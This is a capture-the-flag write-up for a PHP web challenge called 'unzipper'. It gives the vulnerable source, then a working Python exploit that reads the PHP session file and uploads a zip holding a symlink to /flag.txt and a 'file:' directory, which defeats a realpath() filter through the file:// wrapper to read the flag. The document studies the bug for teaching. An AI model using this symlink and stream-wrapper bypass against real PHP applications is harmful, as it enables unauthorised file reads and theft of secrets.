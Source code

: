 # unzipper

**Category**: web \
**Difficulty**: medium \
**Points**: 172 points (49 solves) \
**Author**: hlt

Here, let me unzip that for you.

Download: [unzipper.tar.xz](unzipper.tar.xz)

Connection: http://65.108.176.76:8200/

## Overview

Another small challenge:

```php
<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);
```

- We can upload a zip, and the server will unzip it for us in a randomly-named
  sandbox directory. They use these `unzip` parameters:
  - `-n`: Do not overwrite existing files when unzipping
  - `-qq`: Quiet output

- We have arbitrary file read: http://65.108.176.76:8200/?file=/etc/passwd
  - However, `realpath()` returns the absolute pathname, resolving relative
    directories and symlinks.
  - The return value of `realpath()` can't contain `flag`, so simply reading
    `/flag.txt` is not possible.

- The lock file is to prevent race conditions with script running in the
  background that periodically deletes uploaded files

## Solution

> Solved with Youssef

First notice that we can use the `PHPSESSID` cookie and read our `$_SESSION` data from `/var/lib/php/sessions/`. This allows us to get `$sandbox`:

```python
import requests
import os

url = "http://65.108.176.76:8200"

s = requests.Session()
res = s.get(url)
sess_id = s.cookies["PHPSESSID"]
print(f"[+] PHPSESSID = {sess_id}")

res = s.get(f"{url}/?file=/var/lib/php/sessions/sess_{sess_id}")
sandbox = res.text.split(":")[-1].split(";")[0][1:-1]
print(f"[+] sandbox = {sandbox}")
```

```
[+] PHPSESSID = t7fl8v188kg8gd0ai3c3be0qq1
[+] sandbox = 29eca32e80f80d0230f27ddcb3a90377
```

Next I tried uploading a symlink to `/flag.txt` inside a zip and reading the symlink using `http://65.108.176.76:8200/?file=/var/www/html/data/{sandbox}/{symlink}`, but that didn't work because `realpath()` simply resolved the path to `/flag.txt`, which failed the check:

```php
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);
```

At this point Youssef had to idea of using `file://`.

What if we created a zip file with this directory structure?
```
$ ls --tree file: leak.lnk
file:
└── var
   └── www
      └── html
         └── data
            └── ccf86389404367cb06bab3ba41c71c27
               └── leak.lnk
leak.lnk -> /flag.txt
```

```
root@229a6d68a68b:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27# psysh
Psy Shell v0.11.0 (PHP 7.4.25 _ cli) by Justin Hileman
>>> realpath('file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk');
=> "/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/file:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk"
>>> readfile('file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk');
hxp{fleg}
=> 10
```

Notice that `realpath()` does the following translation
```
file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk
file:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk
```
which it interprets as a relative file path. Notice that this `leak.lnk` is not a symlink to `/flag.txt`, but actually just an empty directory.

The actual symlink to `/flag.txt` is located in `/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk`, which `readfile()` will read.

Props to Youssef for coming up with this solution!

```python
import requests
import os

url = "http://65.108.176.76:8200"

s = requests.Session()
res = s.get(url)
sess_id = s.cookies["PHPSESSID"]
print(f"[+] PHPSESSID = {sess_id}")

res = s.get(f"{url}/?file=/var/lib/php/sessions/sess_{sess_id}")
sandbox = res.text.split(":")[-1].split(";")[0][1:-1]
print(f"[+] sandbox = {sandbox}")

symlink = "leak.lnk"
file_url = f"file:///var/www/html/data/{sandbox}/{symlink}"

os.system("rm -rf leak.lnk go.zip file:")
os.system(f"ln -s /flag.txt leak.lnk")
os.system(f"mkdir -p {file_url}")
os.system(f"zip --symlinks -r go.zip file: {symlink}")

files = {"file": open("go.zip", "rb")}
res = s.post(f"{url}", files=files)
res = s.get(f"{url}/?file={file_url}")
print(res.text)
```

```
$ python3 solve.py
[+] PHPSESSID = 10a5nlegdvdl0o99a6e5khkedm
[+] sandbox = a8a188a8460b7a11b7bbad7f2a8562c6
  adding: file:/ (stored 0%)
  adding: file:/var/ (stored 0%)
  adding: file:/var/www/ (stored 0%)
  adding: file:/var/www/html/ (stored 0%)
  adding: file:/var/www/html/data/ (stored 0%)
  adding: file:/var/www/html/data/a8a188a8460b7a11b7bbad7f2a8562c6/ (stored 0%)
  adding: file:/var/www/html/data/a8a188a8460b7a11b7bbad7f2a8562c6/leak.lnk/ (stored 0%)
  adding: leak.lnk (stored 0%)
hxp{at_least_we_have_all_the_performance_in_the_world..._lolphp_:/}
```

## Note

The challenge set `php_admin_value[allow_url_fopen] = 0`. However, this still
lets use use PHP's various [stream
wrappers](https://www.php.net/manual/en/wrappers.php). Notice `file://` is not
restricted by `allow_url_fopen`, as indicated here:
https://www.php.net/manual/en/wrappers.file.php

You can also see this in the [source code](https://github.com/php/php-src/blob/PHP-7.4.25/main/streams/streams.c#L1865), where `plain_files_wrapper->is_url == 0`.
